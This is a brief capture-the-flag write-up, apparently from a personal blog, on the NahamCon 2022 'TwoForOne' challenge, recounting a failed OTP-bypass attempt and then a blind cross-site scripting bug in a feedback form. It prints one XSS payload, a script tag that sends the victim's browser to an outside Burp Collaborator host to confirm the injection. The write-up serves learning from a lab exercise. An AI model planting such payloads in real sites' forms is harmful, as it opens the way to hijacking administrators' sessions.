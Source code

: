 ## Attempt 1

At first I taught it got broken authentication bug, so we can bypass the admin's OTP

But after some testing, did not find any bug that can bypass the OTP

## Attempt 2

I didn't solve this during the CTF, look though the [writeup by Weak But Leet](https://github.com/ghostinthefingers/CTF-Writeups/blob/main/nahamconCTF/TwoForOne/README.md)

Now I realized I missed the **blind XSS bug** on the feedback form! 

Using the Burp Collaborator we can confirm the XSS bug:

```html
<script>
document.location="http://eq8wvk56ejt3yydicefknthi99fz3o.burpcollaborator.net";
</script>
```
![two6](/uploads/nahamcon2022/two6.png)
